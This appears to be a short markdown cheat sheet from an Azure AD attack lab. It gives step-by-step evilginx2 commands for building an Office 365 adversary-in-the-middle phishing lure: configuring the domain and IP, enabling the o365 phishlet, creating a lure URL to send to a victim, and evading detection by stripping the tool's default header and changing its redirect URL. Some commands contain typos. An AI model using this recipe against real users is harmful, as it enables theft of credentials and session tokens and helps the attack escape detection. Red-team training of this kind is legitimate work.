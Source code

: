 #### Start evilgix2
```
evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets
```

#### Configure the domain
```
config domain studentx.corp
```

#### Set the IP for the evilginx server
```
config ip xx.xx.xx.xx
```

#### Use the template for office365
```
phishlets hostname o365 <DOMAIN>
```

#### Verify the DNS entries
```
phishlets get-hosts o365
```

#### Copy the certificate and private key
0365.cr and 0365.key from ```C:\studentx\.evilginx\crt``` to ```C:\studentx\.evilginx\crt\login.studentx.corp```

#### Enable phishlets
```
phislets enable 0365
```

#### Create the phishing URL (Tied to an ID)
```
lures create 0365
```

#### Get the phishing URL
- Share the phishing URL with the victim
```
lures get-url <ID>
```

### Avoid detection
- Avoid detection by removing default Evilginx2 HTTP Header and white list outgoing and incoming IP addresses.

#### Change default redirect uri
```
vim config.go

#Change line with DEFAULT_REDIRECT_URL
```
